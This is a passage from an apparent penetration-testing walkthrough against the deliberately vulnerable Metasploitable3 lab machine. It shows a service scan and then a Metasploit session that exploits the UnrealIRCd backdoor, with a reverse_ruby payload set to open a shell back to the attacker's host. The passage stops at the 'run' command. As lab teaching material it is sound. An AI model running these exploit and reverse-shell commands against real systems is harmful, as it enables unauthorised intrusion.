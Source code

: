 {% highlight bash %}
msf > services
Services
========

host           port  proto  name         state   info
----           ----  -----  ----         -----   ----
192.168.19.20  21    tcp    ftp          open    ProFTPD 1.3.5
192.168.19.20  22    tcp    ssh          open    OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.10 Ubuntu Linux; protocol 2.0
192.168.19.20  80    tcp    http         open    Apache httpd 2.4.7
192.168.19.20  445   tcp    netbios-ssn  open    Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.168.19.20  631   tcp    ipp          open    CUPS 1.7
192.168.19.20  3000  tcp    ppp          closed  
192.168.19.20  3306  tcp    mysql        open    MySQL unauthorized
192.168.19.20  3500  tcp    http         open    WEBrick httpd 1.3.1 Ruby 2.3.7 (2018-03-28)
192.168.19.20  6697  tcp    irc          open    UnrealIRCd
192.168.19.20  8181  tcp    http         open    WEBrick httpd 1.3.1 Ruby 2.3.7 (2018-03-28)
{% endhighlight %}

With these configurations set, we are ready to start exploiting vulnerabilities. Well, first finding the vulnerabilities... then exploiting them! The following sections discuss a pentest which is formatted into sections based on the port number of the service running on Metasploitable3.

## Port 6697: UnrealIRCd

I have previously encountered UnrealIRCd in Metasploitable2. Searching the Metasploit Framework database (using `search unrealircd`) only yielded one search hit. This was the same vulnerability and associated exploit used in Metasploitable2. The same of the exploit is:

- exploit/unix/irc/unreal_ircd_3281_backdoor

I could not determine the specific version on Metasploitable3, but decided to give the exploit a whirl:

{% highlight bash %}
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhost 192.168.19.20
rhost => 192.168.19.20

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set rport 6697
rport => 6697

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse_ruby
payload => cmd/unix/reverse_ruby

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set lhost 192.168.19.10
lhost => 192.168.19.10

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set lport 2345
lport => 2345

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run
{% endhighlight %}

